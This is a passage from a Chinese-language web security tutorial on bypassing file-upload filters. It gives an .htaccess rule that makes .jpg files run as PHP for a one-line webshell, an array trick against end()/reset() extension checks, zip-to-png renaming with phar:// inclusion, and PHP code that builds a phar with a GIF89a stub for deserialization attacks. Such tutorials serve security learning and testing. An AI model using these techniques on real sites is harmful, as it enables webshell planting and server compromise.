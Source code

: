 ``` {.xml}
 或者
 <!-- 上传一个文件名字叫做.jpg的文件，然后里面是一句话木马，用菜刀连接 -->
<IfModule>
    AddType application/x-httpd-php .jpg
</IfModule>
```
* **** 构造数组绕过 ****<br>
有时候后台上传代码使用到end函数和reset函数判断文件后缀。<br>
 end函数取到的是给数组的最后一次赋值的那个值，继续尝试会发现 reset 函数也是一样，第一个给数组赋值的值就是reset函数返回的值
end函数取到了第二个给数组赋值的值，也就是filename[0]，reset函数的值为filename[1]。<br>
filename[1] = php<br>
filename[0] = png<br>

##### 三、zip、phar文件上传
此类文件上传的绕过一般都是配合文件包含进行的，以压缩文件形式绕过上传限制，通过phar协议进行文件包含，执行webshell。

* ****zip上传绕过****：我们先创建一个php文件，里面输入<?php echo phpinfo(); ?>就行了，接下来我们把php文件压缩成zip文件，必须通过测试发现只支持上传png文件，所以我们把zip文件改成png，<br>
(1.php→压缩→1.zip→重命名→1.png→上传),然后通过?file=phar://uploads/xxx.png/1进行文件包含。

* ****phar文件上传绕过****：

  phar文件结构<br>

  A stub ：可以理解为一个标志，格式为xxxHALT_COMPILER();?>，前面内容不限，但必须以_HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。

  A manifest describing the contents ：phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

  The file contents ：被压缩文件的内容

  A signature for verifying Phar integrity ：签名，放在文件末尾

  生成phar文件的示例代码：（注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件）

```{.php}
  <?php
  class PharDemo{
      private $message;
      public function __construct($msg){
          $this->message = $msg;
      }
      function __destruct(){
          echo $this->message;
      }
  }
  $phar = new Phar("phar.phar");
  $phar->startBuffering();
  $phar->setStub(",GIF89a.<?php __HALT_COMPILER(); ?>"); //设置stub,可设置GIF89a.头，绕过文件后缀检测
  $o = new PharDemo("oh oh oh !!!");
  $phar->setMetadata($o); //将自定义的meta-data存入manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
  //签名自动计算
  $phar->stopBuffering();
```

